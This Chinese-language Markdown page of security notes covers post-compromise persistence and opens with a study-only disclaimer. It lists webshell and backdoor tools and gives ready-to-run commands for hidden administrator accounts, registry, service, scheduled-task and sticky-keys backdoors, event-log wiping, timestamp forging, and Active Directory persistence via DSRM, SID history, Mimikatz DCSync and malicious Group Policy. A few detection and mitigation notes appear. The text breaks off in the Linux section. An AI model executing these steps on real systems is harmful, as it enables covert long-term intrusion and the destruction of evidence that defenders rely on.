



# 权限维持

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

# 大纲

* **[web](#web)**
    * [webshell](#webshell)
        * webshell 管理工具
        * webshell 爆破
        * 无字母数字 webshell
        * 无文件 webshell
    * [中间件](#中间件)

* **[win](#win)**
    * [后门用户](#后门用户)
    * [MSF权限维持](#MSF权限维持)
    * [权限维持技巧](#权限维持技巧)
    * [痕迹清理](#痕迹清理)
    * [域](#域)
        * [AD持久化](#AD持久化)
        * [组策略](#组策略)
        * [Hook_PasswordChangeNotify](#hook_passwordchangenotify)

* **[linux](#linux)**
    * [启动项](#启动项)
    * [命令后台运行](#命令后台运行)
    * [权限维持技巧](#权限维持技巧)
    * [后门隐藏进程](#后门隐藏进程)
    * [痕迹清理](#痕迹清理)

* **[C2-RAT](#C2-RAT)**
    * [Framework](#framework)
        * [msfvenom](#msfvenom)
        * [msfencode](#msfencode)
    * Payload Generation

---

# web

## webshell

<p align="center">
    
</p>

**相关资源**
- [JoyChou93/webshell](https://github.com/JoyChou93/webshell) - 入侵分析时发现的 Webshell 后门
- [LandGrey/webshell-detect-bypass](https://github.com/LandGrey/webshell-detect-bypass) - 绕过专业工具检测的 Webshell 研究文章和免杀的 Webshell
- [yzddmr6/webshell-venom](https://github.com/yzddmr6/webshell-venom) - 免杀 webshell 无限生成工具(利用随机异或无限免杀D盾)
- [tennc/webshell](https://github.com/tennc/webshell) - 一个 webshell 收集项目
- [S9MF/S9MF-php-webshell-bypass](https://github.com/S9MF/S9MF-php-webshell-bypass) - 分享 PHP 免杀大马
- [yzddmr6/as_webshell_venom](https://github.com/yzddmr6/as_webshell_venom) - 免杀 webshell 无限生成工具蚁剑版
- [backlion/webshell](https://github.com/backlion/webshell) - 这是一些常用的 webshell
- [threedr3am/JSP-Webshells](https://github.com/threedr3am/JSP-Webshells) - 收集 JSP Webshell 的各种姿势
- [Ivan1ee/.NETWebShell](https://github.com/Ivan1ee/.NETWebShell) - .net 命令执行的webshell
- [threedr3am/ZhouYu](https://github.com/threedr3am/ZhouYu) - SpringBoot 持久化 WebShell
- [oldkingcone/slopShell](https://github.com/oldkingcone/slopShell)
- [EmYiQing/JSPHorse](https://github.com/EmYiQing/JSPHorse) - 结合反射调用、Javac动态编译、ScriptEngine调用JS技术和各种代码混淆技巧的一款免杀JSP Webshell生成工具
    ```
    java -jar JSPHorse.jar -p your_password

    1.jsp?pwd=your_password&cmd=calc.exe
    ```

### webshell 管理工具

- 蚁剑
    - 相关资源
        - [AntSwordProject/antSword: AntSword is a cross-platform website management toolkit.](https://github.com/AntSwordProject/antSword)
        - [AntSwordProject/AntSword-Loader: AntSword 加载器](https://github.com/AntSwordProject/AntSword-Loader)
        - [virink/as_scanwebshell](https://github.com/virink/as_scanwebshell) - 通过正则匹配,查找后门 webshell
        - [AntSwordProject/AwesomeScript](https://github.com/AntSwordProject/AwesomeScript) - AntSword Shell 脚本分享/示例
        - [AntSwordProject/AwesomeEncoder](https://github.com/AntSwordProject/AwesomeEncoder) - AntSword 自定义编(解)码器分享
    - 相关文章
        - [记一次绕过宝塔防火墙的BC站渗透](https://mp.weixin.qq.com/s/qXYed14XTM3Lbwv9qZ4G3g)

- Behinder
    - [rebeyond/Behinder: "冰蝎"动态二进制加密网站管理客户端](https://github.com/rebeyond/Behinder) - 冰蝎

- Godzilla
    - [BeichenDream/Godzilla](https://github.com/BeichenDream/Godzilla) - 哥斯拉

- [admintony/BypassCaiDao: 过WAF菜刀](https://github.com/admintony/BypassCaiDao)
- [Chora10/Cknife: Cknife](https://github.com/Chora10/Cknife)
- [epinna/weevely3: Weaponized web shell](https://github.com/epinna/weevely3)
- [shack2/skyscorpion](https://github.com/shack2/skyscorpion) - 天蝎

### webshell 爆破
- [shmilylty/cheetah](https://github.com/shmilylty/cheetah) - 一个专用于爆破 webshell 的工具

### 无字母数字 webshell

- [无字母数字 webshell](../语言安全/PHP安全/无字母数字webshell.md)

### 无文件 webshell

**相关文章**
- [Tomcat 源代码调试笔记 - 看不见的 Shell](https://mp.weixin.qq.com/s/x4pxmeqC1DvRi9AdxZ-0Lw)
- [基于内存 Webshell 的无文件攻击技术研究](https://landgrey.me/blog/12/)
- [利用“进程注入”实现无文件不死webshell](https://www.cnblogs.com/rebeyond/p/9686213.html)
- [查杀Java web filter型内存马](http://gv7.me/articles/2020/kill-java-web-filter-memshell/)

**相关资源**
- [z1Ro0/tomcat_nofile_webshell](https://github.com/z1Ro0/tomcat_nofile_webshell) -  Tomcat 基于动态注册 Filter 的无文件 Webshell
- [ydnzol/memshell](https://github.com/ydnzol/memshell) - Tomcat 冰蝎内存马

---

## 中间件

**httpd**
- 相关工具
    - [ianxtianxt/apache-](https://github.com/ianxtianxt/apache-) - apache 权限维持后门

**nginx**
- 相关工具
    - [t57root/pwnginx](https://github.com/t57root/pwnginx) - a nginx backdoor provides shell access, socks5 tunneling, http password sniffing.

---

# win
## 后门用户

**相关文章**
* [Windows完美实现克隆用户的方法](https://ai-sewell.me/2018/Windows%E5%AE%8C%E7%BE%8E%E5%AE%9E%E7%8E%B0%E5%85%8B%E9%9A%86%E7%94%A8%E6%88%B7%E7%9A%84%E6%96%B9%E6%B3%95/)
* [你能找到我么？-- 隐藏用户建立(Powershell)](https://evi1cg.me/archives/UserClone.html)
* [渗透技巧——Windows系统的帐户隐藏](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-Windows%E7%B3%BB%E7%BB%9F%E7%9A%84%E5%B8%90%E6%88%B7%E9%9A%90%E8%97%8F/)
* [绕过反病毒添加管理员用户小结](https://mp.weixin.qq.com/s/UKJUBQFKf1lBctfckmieDg)
* [逃逸——当net命令被禁用](https://www.anquanke.com/post/id/255225)

**相关项目/工具**
* [Ch1ngg/AggressorScript-CreateCloneHiddenAccount](https://github.com/Ch1ngg/AggressorScript-CreateCloneHiddenAccount) - 创建一个克隆隐藏的管理员账号
* [An0nySec/ShadowUser](https://github.com/An0nySec/ShadowUser) - 影子用户 克隆
* [lengjibo/NetUser](https://github.com/lengjibo/NetUser) - 使用 windowsapi 添加用户，可用于 net 无法使用时
* [kindtime/nosferatu](https://github.com/kindtime/nosferatu) - Lsass NTLM Authentication Backdoor
* [0x727/CloneX_0x727](https://github.com/0x727/CloneX_0x727) - 进行克隆用户、添加用户等账户防护安全检测的轻巧工具
    ```
    CloneX.exe test 123456  # 新建用户
        CloneX.exe *test 123456  # powerful mode
    CloneX.exe test test1   # 克隆存在的用户
    ```

**小技巧**

```bash
net user PHPNET$ 1234abcd~ /add                 # 添加用户
# Windows 的帐号名称后带着"$"符号时,不会在 net user 命令中显示出帐号信息

net localgroup administrators PHPNET$ /add      # 将用户添加到管理组

net user PHPNET$ /del                           # 删除用户
query user                                      # 查看会话
logoff <ID号>                                   # 踢掉
```

---

## MSF权限维持

内容参见 [metasploit 笔记](../../工具/Metasploit.md#权限维持) 权限维持部分

---

## 权限维持技巧

**相关文章**
- [内网渗透-权限维持](http://rtshield.top/2019/09/16/%E5%86%85%E7%BD%91%E6%B8%97%E9%80%8F-%E6%9D%83%E9%99%90%E7%BB%B4%E6%8C%81/)

**注册表后门**
```
HKLM\Software\Microsoft\Windows\CurrentVersion\Run
```
原理就是在注册表的启动项下，新建一个键值对，键可变，值为后门程序的路径

1. 上传后门程序

2. 隐藏文件
    ```
    attrib "C:\Windows\Temp\payload.exe" +h +s
    ```

3. 通过注册表加入启动项
    ```
    reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v WindowsUpdate /t REG_SZ /d "C:\Windows\Temp\payload.exe" /f
    ```
    `/v` 后面为键的名称，`/t` 为键的类型，`/d` 为该键具体的值，`/f` 意为强制覆盖现有项

- 清除后门
    ```
    reg delete HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v WindowsUpdate /f
    ```
    删除注册表下对应的键值

    ```
    del C:\Windows\Temp\payload.exe
    ```
    清除后门程序

**userinit 注册表后门**
```
HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
```
原理就是用户在登录时，winlogon 会自动运行其中指定的程序

- 直接写入注册表
    ```bash
    reg add HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon /v Userinit /t REG_SZ /d "C:\Windows\System32\userinit.exe,<powershell代码>" /f
    ```

或者

- 使用 powershell
    ```powershell
    Set-ItemProperty "HKLM:\SOFTWARE\Microsoft\WINDOWS NT\CurrentVersion\Winlogon" -name Userinit -value "C:\Windows\system32\userinit.exe,<powershell代码>"
    ```

**Logon Scripts 后门**
```
HKCU\Environment
```

1. 上传后门程序

    将 powershell 的一句话执行程序直接放入 bat 脚本中

2. 隐藏后门程序
    ```
    attrib "C:\Windows\Temp\payload.bat" +h +s
    ```

3. 写入注册表
    ```
    reg add HKCU\Environment /v UserInitMprLogonScript /t REG_SZ /d "C:\Windows\Temp\payload.bat" /f
    ```

- 清除后门
    ```
    reg delete HKCU\Environment /v UserInitMprLogonScript
    ```
    ```
    del C:\Windows\Temp\payload.bat
    ```

**映像劫持**

- https://oddvar.moe/2018/04/10/persistence-using-globalflags-in-image-file-execution-options-hidden-from-autoruns-exe/

需要部署后门程序，但是不易被发现
```
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\explorer.exe" /v GlobalFlag /t REG_DWORD /d 512

reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\explorer.exe" /v ReportingMode /t REG_DWORD /d 1

reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\explorer.exe" /v MonitorProcess /d "C:\Users\Administrator\Desktop\payload.exe"
```

**RunOnceEx 后门**

- https://oddvar.moe/2018/03/21/persistence-using-runonceex-hidden-from-autoruns-exe/

需要重启和管理员权限

生成恶意 DLL 文件，并部署
```
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001\Depend /v 1 /d "C:\Windows\Temp\evil.dll"
```

**自启目录后门**

开机自启后门

1. 上传后门程序

2. 部署后门程序
    ```
    copy "C:\Windows\Temp\payload.exe" "C:\Users\用户名\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\WindowsUpdate.exe" /y
    ```
    删除多余后门副本
    ```
    del C:\Windows\Temp\payload.exe
    ```

3. 隐藏后门程序
    ```
    attrib "C:\Users\lamba\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\WindowsUpdate.exe" +h +s
    ```

**服务启动后门**

开机自启服务并启动后门

1. 上传后门程序

2. 创建 Windows 服务
    ```
    sc create "WindowsUpdate" binpath= "cmd /c start C:\Windows\Temp\payload.exe"
    sc config "WindowsUpdate" start= auto
    ```

3. 启动服务
    ```
    net start WindowsUpdate
    ```

- 停止服务，删除服务
    ```
    net stop WindowsUpdate
    sc delete "WindowsUpdate"
    ```

**计划任务后门**

通过计划任务周期执行后门程序

1. 上传后门程序

2. 创建计划任务
    ```
    schtasks /create /tn WindowsUpdate /tr "C:\Windows\Temp\payload.exe" /sc minute /mo 1
    ```

3. 隐藏后门程序
    ```
    attrib "C:\Windows\Temp\payload.exe" +h +s
    ```

- 删除计划任务
    ```
    schtasks /delete /tn WindowsUpdate
    ```

**shift 后门**

在 windows 登录界面处，连续按5次 shift 来启动粘滞键，启动 sethc 程序

1. 拷贝文件
    ```
    copy c:\windows\system32\cmd.exe c:\windows\system32\sethc.exe
    copy c:\windows\system32\cmd.exe c:\windows\system32\dllcache\sethc.exe
    ```

2. 隐藏文件
    ```
    attrib C:\Windows\System32\sethc.exe +h +s
    attrib C:\Windows\System32\dllcache\sethc.exe +h +s
    ```

**LGP 后门**

开始->运行->键入"gpedit.msc"->本地组策略编辑器->window设置(system)->脚本->启动->属性


**WinRM + IIS URI 监听**

在 IIS 监听 80 端口的情况下，可以通过设置 WinRM 监听端口为 80，再设置监听 URI 的方式来复用 80 端口。以此作为隐蔽的后门。

```
winrm set winrm/config/Listener?Address=*+Transport=HTTP @{Port="80"}
winrm set winrm/config/Listener?Address=*+Transport=HTTP @{URLPrefix="test"}
```





---

## 痕迹清理

**清除 powershell 历史记录**

```powershell
powershell Remove-Item (Get-PSReadlineOption).HistorySavePath
```

**清除 cmd 历史记录**

```bash
doskey /reinstall
```

**修改文件时间戳**

```powershell
Function edit_time($path){$date1 =Get-ChildItem |
Select LastWriteTime|Get-Random;$date2 =Get-ChildItem |
Select LastWriteTime|Get-Random;$date3 =Get-ChildItem |
Select LastWriteTime|Get-Random;$(Get-Item $path).lastaccesstime=$date1.LastWriteTime;
$(Get-Item $path).creationtime=$date2.LastWriteTime ;
$(Get-Item $path).lastwritetime=$date3.LastWriteTime};
edit_time("C:\test.txt")
```

**删除日志**

Windwos 操作系统默认没有提供删除特定日志记录的功能，仅提供了删除所有日志的操作功能。也就意味着日志记录 ID（Event Record ID）应该是连续的，默认的排序方式应该是从大到小往下排列。

- 粗暴删除
    ```bash
    net stop eventlog    # 停止服务
    del c:\Windows\System32\Winevt\Logs\* /Q
    ```
    ```bash
    # 在 meterpreter 会话中
    clearev
    ```

    同样简单粗暴的删除方法
    ```bash
    wevtutil cl "Windows PowerShell"
    wevtutil cl application
    wevtutil cl security
    wevtutil cl setup
    wevtutil cl system
    ```

- 单条删除
    - 相关文章
        - [Detection and recovery of NSA’s covered up tracks](https://blog.fox-it.com/2017/12/08/detection-and-recovery-of-nsas-covered-up-tracks/)
        - [闲聊Windows系统日志](https://www.freebuf.com/vuls/175560.html)
        - [Windows XML Event Log (EVTX)单条日志清除（一）——删除思路与实例](https://3gstudent.github.io/3gstudent.github.io/Windows-XML-Event-Log-(EVTX)%E5%8D%95%E6%9D%A1%E6%97%A5%E5%BF%97%E6%B8%85%E9%99%A4-%E4%B8%80-%E5%88%A0%E9%99%A4%E6%80%9D%E8%B7%AF%E4%B8%8E%E5%AE%9E%E4%BE%8B/)
        - [Windows XML Event Log (EVTX)单条日志清除（二）——程序实现删除evtx文件的单条日志记录](https://3gstudent.github.io/3gstudent.github.io/Windows-XML-Event-Log-(EVTX)%E5%8D%95%E6%9D%A1%E6%97%A5%E5%BF%97%E6%B8%85%E9%99%A4-%E4%BA%8C-%E7%A8%8B%E5%BA%8F%E5%AE%9E%E7%8E%B0%E5%88%A0%E9%99%A4evtx%E6%96%87%E4%BB%B6%E7%9A%84%E5%8D%95%E6%9D%A1%E6%97%A5%E5%BF%97%E8%AE%B0%E5%BD%95/)
        - [Windows XML Event Log (EVTX)单条日志清除（三）——通过解除文件占用删除当前系统单条日志记录](https://3gstudent.github.io/3gstudent.github.io/Windows-XML-Event-Log-(EVTX)%E5%8D%95%E6%9D%A1%E6%97%A5%E5%BF%97%E6%B8%85%E9%99%A4-%E4%B8%89-%E9%80%9A%E8%BF%87%E8%A7%A3%E9%99%A4%E6%96%87%E4%BB%B6%E5%8D%A0%E7%94%A8%E5%88%A0%E9%99%A4%E5%BD%93%E5%89%8D%E7%B3%BB%E7%BB%9F%E5%8D%95%E6%9D%A1%E6%97%A5%E5%BF%97%E8%AE%B0%E5%BD%95/)
        - [Windows XML Event Log (EVTX)单条日志清除（四）——通过注入获取日志文件句柄删除当前系统单条日志记录](https://3gstudent.github.io/3gstudent.github.io/Windows-XML-Event-Log-(EVTX)%E5%8D%95%E6%9D%A1%E6%97%A5%E5%BF%97%E6%B8%85%E9%99%A4-%E5%9B%9B-%E9%80%9A%E8%BF%87%E6%B3%A8%E5%85%A5%E8%8E%B7%E5%8F%96%E6%97%A5%E5%BF%97%E6%96%87%E4%BB%B6%E5%8F%A5%E6%9F%84%E5%88%A0%E9%99%A4%E5%BD%93%E5%89%8D%E7%B3%BB%E7%BB%9F%E5%8D%95%E6%9D%A1%E6%97%A5%E5%BF%97%E8%AE%B0%E5%BD%95/)
        - [Windows XML Event Log (EVTX)单条日志清除（五）——通过DuplicateHandle获取日志文件句柄删除当前系统单条日志记录](https://3gstudent.github.io/3gstudent.github.io/Windows-XML-Event-Log-(EVTX)%E5%8D%95%E6%9D%A1%E6%97%A5%E5%BF%97%E6%B8%85%E9%99%A4-%E4%BA%94-%E9%80%9A%E8%BF%87DuplicateHandle%E8%8E%B7%E5%8F%96%E6%97%A5%E5%BF%97%E6%96%87%E4%BB%B6%E5%8F%A5%E6%9F%84%E5%88%A0%E9%99%A4%E5%BD%93%E5%89%8D%E7%B3%BB%E7%BB%9F%E5%8D%95%E6%9D%A1%E6%97%A5%E5%BF%97%E8%AE%B0%E5%BD%95/)

    - 相关工具
        - [3gstudent/Eventlogedit-evtx--Evolution](https://github.com/3gstudent/Eventlogedit-evtx--Evolution) - 利用 EvtExportLog 修改指定的系统日志文件内容，修改成功后重新启动日志服务
        - [3gstudent/Eventlogedit-evt--General](https://github.com/3gstudent/Eventlogedit-evt--General)
        - [QAX-A-Team/EventCleaner](https://github.com/QAX-A-Team/EventCleaner) - 用于从 Windows 事件日志中删除指定的记录

    Windows 系统在解析事件记录日志时，按照 Event Record 的大小逐条读取日志的内容。假设修改某条日志的长度，使长度覆盖下一条日志，理论上 Windows 系统解析日志时，就会跳过下一条日志，相当于下一条日志被”删除”。 DanderSpritz 中的 eventlogedit 就是这个思路，仅仅时修改了程度，实际上并没有删除日志内容。

**3389 痕迹清除脚本**
```bat
echo off
color 0A
title 3389连接痕迹清除
mode con cols=88 lines=20
set /p fk= 确定要清空3389连接痕迹吗？(y/n)
if /i "%fk%"=="y" goto y
if /i "%fk%"=="n" goto n
call %0

:y
reg delete "HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client" /f
del /a /f /q %HOMEPATH%\Documents\Default.rdp
echo 命令执行成功,请手动查看是否清除.
pause >nul

:n
exit
```

---

## 域

**相关文章**
- [我所了解的内网渗透——内网渗透知识大总结](https://www.anquanke.com/post/id/92646#h2-18)

### AD持久化

**DSRM 密码同步**

- 相关文章 : [巧用DSRM密码同步将域控权限持久化](http://drops.xmd5.com/static/drops/tips-9297.html)
- 相关文章 : [DS Restore Mode Password Maintenance](https://docs.microsoft.com/zh-cn/archive/blogs/askds/ds-restore-mode-password-maintenance)
- 相关文章 : [Sneaky Active Directory Persistence #11: Directory Service Restore Mode (DSRM)](https://adsecurity.org/?p=1714)
- 相关文章 : [Sneaky Active Directory Persistence #13: DSRM Persistence v2](https://adsecurity.org/?p=1785)

获取到域控权限后利用 DSRM 密码同步将域管权限持久化。

Windows Server 2008 需要安装 [KB961320](https://support.microsoft.com/en-us/help/961320/a-feature-is-available-for-windows-server-2008-that-lets-you-synchroni) 补丁才支持 DSRM 密码同步，Windows Server 2003不支持 DSRM 密码同步。

```
ntdsutil
set DSRM password
SYNC FROM DOMAIN ACCOUNT krbtgt
Q
```

修改注册表允许 DSRM 账户远程访问

修改注册表 hkey_local_machineSystemCurrentControlSetControlLsa 路径下的 DSRMAdminLogonBehavior 的值为2。

系统默认不存在 DSRMAdminLogonBehavior，需手动添加。

此时可用 pth 登录
```
Mimikatz "privilege::debug" "sekurlsa::pth /domain:<域> /user:Administrator /ntlm:<hash>" exit
```

由于可以为 DSRM 帐户 PTH，因此可以使用 Mimikatz DCSync 利用此访问权限为任何域帐户提取密码数据。我们可以针对特定的域控制器，并使用 DC 的简称来强制执行 NTLM 身份验证。
```
Mimikatz "lsadump :: dcsync /domain:lab.adsecurity.org / dc：adsdc03 / user：krbtgt"
```

DSRM 账户是域控的本地管理员账户，并非域的管理员帐户。所以 DSRM 密码同步之后并不会影响域的管理员帐户。

事件查看器的安全事件中筛选事件 ID 为 4794 的事件日志，来判断域管是否经常进行 DSRM 密码同步操作。

- 缓解措施
    - 确保每一台域控制器的 DSRM 账户密码是唯一的并且定期修改此密码。同时，确保注册表 DsrmAdminLogonBehavior 的值不为 2，最好将其直接删除或者设置其值为 1 或 0。

**SID 历史**

- 相关文章 : [Sneaky Active Directory Persistence #14: SID History](https://adsecurity.org/?p=1772)

SID 历史记录是支持迁移方案的属性。每个用户帐户都有一个关联的安全标识符（SID），用于跟踪安全主体以及该帐户在连接到资源时所具有的访问权限。SID 历史记录使对另一个帐户的访问可以有效地克隆到另一个帐户。这对于确保用户从一个域移动（迁移）到另一个域时保留访问权限非常有用。由于在创建新帐户时用户的 SID 会更改，因此旧 SID 需要映射到新帐户。将域 A 中的用户迁移到域 B 时，将在域 B 中创建一个新的用户帐户，并将域 A 用户的 SID 添加到域 B 用户帐户的 SID 历史记录属性中。这样可以确保域 B 用户仍然可以访问域 A中的资源。

有趣的是,SID 历史记录对同一域中的 SID 的作用和对同一林中的跨域的 SID 的作用一样，这意味着域 A 中的常规用户帐户可以包含域 A SID，如果域 A 的 SID 是特权账户或组，那么普通用户账户可以获得域 A 的管理权限，而不需要是域 Admins 的成员。

注意：域中的普通用户可以在其 SID 历史记录中包含来自 Active Directory 目录林中的另一个域的 Enterprise Admin SID，从而将用户帐户的访问权限“提升”到目录林中所有域中的有效域管理员。

如果你具有一个没有启用 SID 筛选的林信任关系（也称为隔离），则可以从另一个林中注入一个 SID，并且在进行身份验证并将其用于访问评估时，它将被添加到用户令牌中。

Mimikatz 可以向任何用户账户注入 SID 历史记录（需要域管理员或同等权限）。

在这种情况下，攻击者创建用户帐户“ bobafett”，并将域的默认管理员帐户“ ADSAdministrator”（RID 500）添加到帐户的 SID 历史记录属性。
```
mimikatz "privilege::debug" "misc::addsid bobafett ADSAdministrator"
```

> 注 : mimikatz 在 2016年5月6日移除了 misc::addsid,新增 sid:: module,可使用 sid::add 代替

当 bobafett 账户登录时，所有与该账户相关联的 SIDs 都会被添加到用户的令牌中，用户的令牌用于确定资源的访问权限。与账户关联的 SID 是用户的 SID、用户所在的组 SID（包括这些组的成员）以及 SID 历史记录中包含的 SID。

使用 PowerShell Active Directory cmdlet "Get-ADUser"，我们可以看到没有分配给 bobafett 账户的组成员资格，尽管它在 SIDHistory（ADSAdministrator账户）中确实有一个 SID
```powershell
Import-Module ActiveDirectory
get-aduser bobafett -properties sidhistory,memberof
```

当 bobafett 登录时，会评估与该账户相关的 SID，并根据这些 SID 确定访问权限。由于 bobafett 帐户与 ADSAdmnistrator 帐户（RID 500）相关联，因此 bobafett 帐户拥有 ADSAdministrator 帐户的所有访问权限，包括域管理权限。

- 检测手段

    检测 SID 历史记录账户升级的最好方法是枚举出所有在 SID 历史属性中拥有数据的用户，并标记出包含同一域*中的SID的用户。如果用户没有被迁移，可以简单地搜索所有在 SIDHistory 属性中包含数据的用户。

    PowerShell AD Cmdlet "Get-ADUser "对于检测 "同域SID历史记录 "最有用。
    ```powershell
    Import-Module ActiveDirectory
    [string]$DomainSID = ( (Get-ADDomain).DomainSID.Value )

    Get-ADUser -Filter  "SIDHistory -Like '*'" -Properties SIDHistory | `
    Where { $_.SIDHistory -Like "$DomainSID-*" }
    ```
    注意，用户的 SIDHistory 中的 SID 以 "500 "结尾，该用户的 SID 是默认的域管理员账户，默认情况下是 Administrators、Domain Admins、Schema Admins 和 Enterprise Admins 的成员。

**AdminSDHolder＆SDProp**

- 相关文章 : [Sneaky Active Directory Persistence #15: Leverage AdminSDHolder & SDProp to (Re)Gain Domain Admin Rights](https://adsecurity.org/?p=1906)

---

### 组策略

**相关文章**
- [BadGPO：组策略对象在持久化及横向渗透中的应用 ](https://www.anquanke.com/post/id/86531)
- [Sneaky Active Directory Persistence #17: Group Policy](https://adsecurity.org/?p=2716)
- [浅析域渗透中的组策略利用](https://xz.aliyun.com/t/7784)

**组策略概述**

组策略使管理员能够管理 Active Directory 中的计算机和用户。组策略保存为组策略对象（GPO）

攻击者可以滥用 GPO，通过欺诈方式进一步自动化地传播恶意软件、实现持久化驻留目的,恶意软件可以利用 GPO 穿越 IDS/IPS 等防火墙，最终访问到域内所有的系统。

GPO 的另一优点就是攻击过程期间并不需要目标系统在线，一旦离线状态下的目标系统重新登录到域中，恶意的 GPO 载荷就会被投递到目标系统。

组策略可以包括安全选项，注册表项，软件安装以及用于启动和关闭的脚本，并且域成员默认情况下每 90 分钟刷新一次组策略设置（对于域控制器为 5 分钟）。 这意味着组策略在目标计算机上强制执行配置的设置。

在大多数 Active Directory 实现中，在域上至少配置了一个 GPO，定义了授权密码、Kerberos 和全域策略；至少有一个为域控制器 OU 配置的 GPO；至少有一个为服务器和工作站 OU 配置的 GPO。这些 GPO 定义了特定于环境的安全设置，并通常配置管理组，包括启动/关闭脚本等。GPO 可以被配置为在每个级别上设置组织定义的安全要求，并可用于安装软件和设置文件和注册表权限。

GPO 仅适用于用户和计算机，并且可以按组进行过滤，或者可以使用“首选项”组件进行更具体的定位。 “No Override”选项可确保即使更接近资源的 GPO 设置相互矛盾，也可以应用组策略中的设置。

SYSVOL 是所有经过身份验证的用户具有读取权限的 Active Directory 中的域范围共享。SYSVOL 包含登录脚本，组策略数据以及其他域控制器中需要使用的全域数据。

SYSVOL 共享将自动同步并在所有域控制器之间共享。

组策略也相当于远控,可以配置脚本让域内的每一台电脑都种上马批量执行一遍。

- 计划任务案例

    **修改密码**

    changepass.vbs
    ```
    strComputer = "."
    Set objUser = GetObject("WinNT://" & strComputer & "/Administrator, user")
    objUser.SetPassword "Zaq1xsw2"
    objUser.SetInfo
    ```
    这个脚本的作用是修改本地管理员账户的密码为 Zaq1xsw2

    在域策略的 GPO 下面下发这个脚本
    

    在域内主机上面登录域普通用户,强制刷新组策略 `gpupdate /force`,查看 vbs 脚本

    

    ---

    **按照时间定时的收集信息**

    导入 powershell 中管理 GPO 的模块,创建一个作用整个域的 GPO
    ```
    Import-Module GroupPolicy -verbose
    new-gpo -name TestGPO | new-gplink -Target "dc=test1,dc=local"
    ```

    执行脚本添加计划任务
    ```
    New-GPOImmediateTask -TaskName Debugging -GPODisplayName TestGPO -SysPath '\\dc\sysvol\test1.local' -CommandArguments '-c "123 | Out-File C:\test\debug.txt"'
    ```

    强制更新组策略，或者默认等待90分钟组策略强制更新
    ```
    Invoke-GPUpdate -Computer "TEST\COMPUTER-01"
    ```

    清理痕迹
    ```
    Remove-GPO -Name TestGPO
    ```

---

### Hook_PasswordChangeNotify

**相关文章**
- [域渗透——Hook PasswordChangeNotify](http://drops.xmd5.com/static/drops/tips-13079.html)
- [维持域管权限的一些简单办法[Hook PasswordChangeNotify]](https://klionsec.github.io/2016/08/16/Hook-PasswordChangeNotify/)

---

# linux

## 启动项

需要开机启动自己的脚本时，只需要将可执行脚本丢在 `/etc/init.d` 目录下，然后在 `/etc/rc.d/rc*.d` 中建立软链接即可
```
ln -s /etc/init.d/sshd /etc/rc.d/rc3.d/S100ssh
```
此处 sshd 是具体服务的脚本文件，S100ssh 是其软链接，S 开头代表加载时自启动；如果是 K 开头的脚本文件，代表运行级别加载时需要关闭的。

---

## 命令后台运行

当用户注销(logout)或者网络断开时,终端会收 HUP(hangup)信号从而关闭其所有子进程.因此,解决办法有两种途径:要么让进程忽略 HUP 信号,要么让进程运行在新的会话里从而成为不属于此终端的子进程.

1. 使用 nohup 命令,让提交的命令忽略 hangup 信号.
```
nohup ping www.baidu.com &
```

2. 使用 setsid 命令,让命令在不属于终端的子进程当中执行.
```
setsid ping www.baidu.com &
```

